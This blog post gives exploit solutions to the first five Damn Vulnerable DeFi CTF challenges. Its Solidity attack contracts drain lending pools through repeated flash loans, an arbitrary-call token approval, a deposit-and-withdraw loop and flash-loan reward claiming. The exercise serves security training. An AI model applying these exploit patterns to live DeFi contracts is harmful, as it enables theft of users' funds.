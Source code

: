 ```yaml
---
title: Damn vulnerable defi Challenges
date: 2023-03-25 19:02:31
tags:
  - solidity
  - damnvulnerabledefi
  - defi
  - CTFs
categories:
  - solidity
---
```


## how to get it started

1. git clone [github repo](https://github.com/tinchoabbate/damn-vulnerable-defi/tree/v3.0.0)
2. yarn install
3. fill your code in \*.challenge.js
4. run your script via hardhat tools

## Challenge1

```javascript
it("Execution", async function () {
  /** CODE YOUR SOLUTION HERE */
  await token
    .connect(player)
    .approve(vault.address, INITIAL_PLAYER_TOKEN_BALANCE);
  await token
    .connect(player)
    .transfer(vault.address, INITIAL_PLAYER_TOKEN_BALANCE);
});
```

## Challenge2

```javascript
interface INaiveReceiverLenderPool{
    function fixedFee(address token, uint256) external pure returns (uint256);
    function flashLoan(address receiver,address token, uint256 amount,bytes calldata data) external returns (bool);
}

contract AttackContract {
    address private constant ETH = 0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE;

    function attack(INaiveReceiverLenderPool pool,address payable receiver) external {
        for(uint i=0;i<10;i++){
            pool.flashLoan(receiver, ETH,0,"0x");
        }
    }
}
```

## Challenge3

Use ERC20 approve function and not it will not affect the balance when making flashloan.

```javascript
function attack(TrusterLenderPool pool,DamnValuableToken _token) external {
    bytes memory data = abi.encodeWithSignature("approve(address,uint256)",address(this),type(uint256).max);
    pool.flashLoan(0,address(this),address(_token),data);
    _token.transferFrom(address(pool),msg.sender,_token.balanceOf(address(pool)));
}
```

## Challenge4

Use our deployed contract to send back the token using deposit function.After the flashloan call withdraw function to take our tokens back.
Do not forget to set the receive function for receiving tokens.
Use \_to.call function to send tokens,it is the current recommended method to use.

```javascript
contract Attack {
     function execute() external payable {
        SideEntranceLenderPool(msg.sender).deposit{value:msg.value}();
     }

     function attack(SideEntranceLenderPool pool,address payable player) external {
        //make a flashloan
        pool.flashLoan(1000 ether);
        //get the money
        pool.withdraw();
        //send to palyer
        (bool sent,) = player.call{value:1000 ether}("");
        require(sent, "Failed to send Ether");
     }

     receive() external payable {}
}
```

## Challenge5

The reward pool only count the amount of deposit. We can use flash loan to borrow some DVT token and claim the reward token at the same time.Here goes the code:

```javascript
contract TheRewardAttack {
    //flashloan pool address.
    FlashLoanerPool  private immutable pool;
    DamnValuableToken private immutable DVTtoken;
    TheRewarderPool private immutable RewardPool;
    RewardToken private immutable RdToken;
    address private owner;

    constructor(FlashLoanerPool _pool,DamnValuableToken _token,TheRewarderPool _RewardPool,RewardToken _Rdtoken,address player) {
        pool = _pool;
        DVTtoken = _token;
        RewardPool = _RewardPool;
        RdToken = _Rdtoken;
        owner = player;
    }

    function receiveFlashLoan(uint256 amount) external{
        //do something.
        //deposit to reward pool
        //approve amount to the reward pool
        DVTtoken.approve(address(RewardPool),amount);

        RewardPool.deposit(amount);

        //claim the rewards
        RewardPool.distributeRewards();

        //withdraw DVTtokens
        RewardPool.withdraw(amount);

        //return back DVT token.
        DVTtoken.transfer(address(pool),amount);

        //send reward token to our player.
        RdToken.transfer(owner,RdToken.balanceOf(address(this)));
    }

    function attack(uint256 amount) external{
        pool.flashLoan(amount);
    }
}
```
